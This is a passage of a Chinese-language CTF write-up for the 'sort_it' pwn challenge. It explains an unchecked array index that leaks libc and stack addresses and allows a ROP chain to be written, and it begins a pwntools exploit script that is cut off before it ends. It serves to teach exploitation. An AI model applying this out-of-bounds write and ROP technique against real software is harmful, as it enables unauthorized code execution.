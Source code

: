 ```
    if ( yn != 'n' )
    `{`
      if ( yn != 'y' )
      `{`
        puts("Invalid choice");
        getchar();
        exit(0);
      `}`
      v4 = 1;
    `}`
  `}`
  if ( (unsigned int)check((__int64)v7) )
  `{`
    puts("You lose!");
    exit(0);
  `}`
  puts("You win!!!!!");
  return 0;
`}`
```

程序循环对给定的字符串数组进行排序，但是程序没有限制输入的`index`的范围，也就是存在数组越界漏洞。

根据数组越界漏洞结合`print_words`函数即可泄漏出栈中的一些内容，得到`libc,elf`基地址和栈地址。泄漏得到地址之后还存在一个问题就是如何将数据写入到栈中。

这里注意到`fgets`函数可以读取`0x11`字节的内容，那么我们就可以先将内容写入到`bss`中，再根据数组越界和`swap`函数将内容写入到栈中，这就构成了一个栈溢出，依次写入`rop`内容即可。

至于`rop`的触发需要等到`main`函数返回时才能执行，因此这里需要满足`check`的检查，即对字符串数组中的单词依照首字母从小到大进行排序。

```
# encoding=utf-8
from pwn import *

file_path = "./sort_it"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = [0xe6e73, 0xe6e76, 0xe6e79]

else:
    p = remote('challenge.nahamcon.com', 32633)
    libc = ELF('./libc-2.31.so')
    one_gadget = [0xe6e73, 0xe6e76, 0xe6e79]


def sort(index1, index2, end=False):
    p.sendlineafter("want to select: ", str(index1))
    p.sendlineafter(" replace it with: ", str(index2))
    if end:
        p.sendlineafter("sorted? [y/n]: ", "y")
    else:
        p.sendlineafter("sorted? [y/n]: ", "n")


def overflow(index, value):
    p.sendlineafter("want to select: ", str(1))
    p.sendlineafter(" replace it with: ", str(1))
    p.sendlineafter("sorted? [y/n]: ", b"n".ljust(8, b"\x00") + p64(value))
    sort(index, yn_offset)
```